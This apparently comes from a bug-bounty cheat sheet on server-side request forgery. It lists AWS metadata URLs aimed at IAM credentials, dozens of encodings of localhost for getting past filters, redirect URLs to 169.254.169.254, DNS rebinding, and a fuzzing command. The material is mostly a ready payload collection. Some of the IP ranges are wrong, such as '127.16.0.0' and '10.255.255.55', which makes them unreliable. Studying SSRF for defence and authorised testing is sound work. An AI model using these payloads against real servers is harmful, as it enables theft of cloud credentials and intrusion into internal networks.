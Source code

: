 # SSRF

Sometimes sites offer the possibility to make external requests using their server, what if we could user their “external” service to make requests for internal resources. That’s SSRF.

If the site is hosted in amazon, it is possible to get internal information by requesting the urls:

```
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/flaws/
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/iam/securty-credentials
```

Another idea is to try and request IP’s that we know that are internal:

```
10.0.0.0 to 10.255.255.55
100.64.0.0 to 10.127.255.255
127.0.0.0 to 127.255.255.255
127.16.0.0 to 127.31.255.255
192.0.0.0 to 192.0.0.255
198.18.0.0 to 198.19.255.255
```

Sometimes websites block external acess to localhost (ie 127.0.0.1). Fortunately it is possible to bypass restrictions by referencing localhost in other ways.

Did you know that `127.0.0.1` and `127.1` are the same thing?

```
127.0.0.1
127.0.0.2
127.1
127.2
::1
0:0:0:0:0:0:0:1
0:0:0:000:0:0:0:1
0000:0000:0000:0000:0000:0000:0000:0001
2130706433
2130706434
7F000001
7F000002
localhos
127.123.123.123
0x7f.1
017700000001
127.0.0.1
localhost
0x7f.0x0.0x0.0x1
0177.00.00.01
017700000001
0x7f001
2130706433
017700000001
%6c%6f%63%61%6c%68%6f%73%74
%31%32%37%2e%30%2e%30%2e%31
0x7f000001
00000000177.000000000.000000000.000000001
0x7f.0x0.0x0.0x1
0x000000007f.0x000000000.0x000000000.0x000000001
0x7f.0x0.0x0.1
0x7f.0x0.0.1
0x7f.0.0.1
127.0x0.0x0.0x1
127.0.0x0.0x1
127.0.0.0x1
0177.00.00.1
0177.00.0.1
0177.0.0.1
127.00.00.01
127.0.00.01
127.0.0.01
0x7f.0x0.1
0x7f.1
0177.00.1
0177.1
0x7f.00.1
0177.0x0.1
::ffff:7f000001
0:0:0:0:0:ffff:7f000001
0000:0000:0000:0000:0000:ffff:7f000001
0000:0000:0000:0000:0000:ffff:127.0.0.1
hostname
0177.1
0177.2
0177.0.1
0177.0.2
017700000001
017700000002
0x7F000001
0x7F000002
0X07f.0.0.1
```

## IP Converter

- https://h.43z.one/ipconverter/

## Redirect from one URL to another

- https://ssrf.localdomain.pw

```
https://ssrf.localdomain.pw/csv-with-body/301-http-169.254.169.254:80-.c.csv
https://ssrf.localdomain.pw/img-with-body/301-http-169.254.169.254:80-.i.jpg
```

- https://sslip.io/

## DNS Rebinding

To put it super simply, DNS rebinding allows you to have a hostname that switches between 2 ips with a very low ttl. This can bypass SSRF protections by resolving as a “safe” ip at first, then immediately switching to an “unsafe” or internal ip.

- https://lock.cmpxchg8b.com/rebinder.html

## Using enclosed alphanumerics

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

## Cloud Meadata

Interactsh server supports DNS records for cloud metadata services, which is useful for testing SSRF-related vulnerabilities.


    aws.interact.sh points to 169.254.169.254
    alibaba.interact.sh points to 100.100.100.200


## Tools

```
# https://github.com/ryandamour/ssrfuzz
echo "http://example.com/test.php?u=" | ssrfuzz scan
```

## Mindmap

![SSRF Mindmap](/ssrf_mindmap.png)

## Articles

| WriteUp | Description |
| --- | --- |
| https://dant0x65.medium.com/bug-bounty-tip-automating-ssrf-ea344ec59962 | Configure burp to look for SSRFs |
| https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery | All about SSRF |
| https://github.com/jdonsec/AllThingsSSRF | All Things SSRF |
| https://github.com/assetnote/blind-ssrf-chains | Blind SSRF Chains | 
